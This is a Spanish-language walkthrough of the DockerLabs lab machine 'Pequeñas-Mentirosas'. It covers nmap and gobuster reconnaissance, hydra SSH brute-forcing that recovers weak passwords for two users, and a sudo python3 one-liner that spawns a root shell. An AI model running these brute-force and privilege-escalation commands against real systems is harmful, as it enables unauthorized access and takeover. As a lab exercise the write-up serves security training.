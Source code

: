 ```yaml
---
title: Pequeñas-Mentirosas - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | beafn28        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/c0f30b08-c06b-4fc6-a01e-613973085e60)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `80` (HTTP)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p 22,80,3000 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/1cb3e4d7-e634-4a95-9682-be2a7a03e5e4)

# Exploración Web
Accedemos a la página web en el puerto `80`. Encontramos un mensaje que dice: **“Pista: Encuentra la clave para A en los archivos.”** No vemos nada más relevante, por lo que procedemos a realizar fuzzing para encontrar directorios ocultos.

![image](https://github.com/user-attachments/assets/2a097f17-e4b9-4261-baca-5fa809b31e29)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/87bc711b-a608-4d70-a491-16983d52e339)

Al no encontrar nada útil, procedemos a un ataque de fuerza bruta contra el usuario a.

## Fuerza Bruta

Usamos hydra para intentar obtener la contraseña del usuario `a` a través de `SSH`:

```bash
hydra -l a -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

Obtenemos una coincidencia: la contraseña es `secret`.

![image](https://github.com/user-attachments/assets/8cab8a67-e13c-4a25-90ae-af2d5e09bb12)

# Intrusión como Usuario a

Ingresamos al sistema mediante SSH con el usuario `a`:

```bash
a@172.17.0.2
```

![image](https://github.com/user-attachments/assets/1641b4f0-7abf-4b8d-a71d-6596671d4221)

Exploramos el sistema y notamos la existencia de un usuario llamado `spencer`. Realizamos fuerza bruta sobre este usuario para descubrir si existe una contraseña.

## Fuerza Bruta

Usamos nuevamente hydra para intentar obtener la contraseña del usuario `spencer`:
```bash
hydra -l spencer -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

Obtenemos una coincidencia: la contraseña es `password1`.

![image](https://github.com/user-attachments/assets/da028713-4dc8-49df-b49d-0eeb1ad16c71)

# Intrusión como Usuario spencer

Accedemos al sistema mediante SSH con el usuario `spencer`:

![image](https://github.com/user-attachments/assets/bbdb8078-72be-4846-b33a-52610c7835d7)

Al ejecutar `sudo -l`, notamos que spencer tiene permisos para ejecutar `python3` como `root`.Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/fa882495-bd9d-4456-88ca-323bbfa47825)

Ejecutamos el siguiente comando para escalar privilegios:
```bash
sudo /usr/bin/python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Esto nos da acceso como root:

![image](https://github.com/user-attachments/assets/4b903770-949d-4d88-955c-dba80a0750c4)

